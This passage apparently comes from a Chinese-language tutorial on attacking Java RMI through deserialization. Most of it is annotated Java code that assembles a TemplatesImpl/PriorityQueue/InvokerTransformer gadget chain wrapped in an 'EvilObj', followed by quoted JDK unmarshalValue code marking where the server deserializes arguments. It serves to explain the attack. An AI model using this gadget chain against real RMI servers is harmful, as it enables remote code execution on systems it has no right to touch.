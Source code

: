 ```java

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());


        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", null, null);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(1);

        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, invokerTransformer);

        return priorityQueue;
    }

}
```

```java
class EvilObj implements Remote, Serializable {
    private PriorityQueue priorityQueue;

    EvilObj() throws Exception {
        this.priorityQueue = getEvilPriorityQueue();
    }

}
```

## 客户端攻击服务端

### 修改mothod

如果前面两个流程是正常进行，之后就是客户端和服务端的交互。也就是现在这个阶段，之前分析了这个阶段的攻击点，是存在反序列化的，但是前提是方法参数不能为基本类型。

```java
protected static Object unmarshalValue(Class<?> type, ObjectInput in) //type是String
    throws IOException, ClassNotFoundException
{
    if (type.isPrimitive()) {  //判断type是不是java的基本类型，String不是java的基本类型则进入else
        if (type == int.class) {
            return Integer.valueOf(in.readInt());
        } else if (type == boolean.class) {
            return Boolean.valueOf(in.readBoolean());
        } else if (type == byte.class) {
            return Byte.valueOf(in.readByte());
        } else if (type == char.class) {
            return Character.valueOf(in.readChar());
        } else if (type == short.class) {
            return Short.valueOf(in.readShort());
        } else if (type == long.class) {
            return Long.valueOf(in.readLong());
```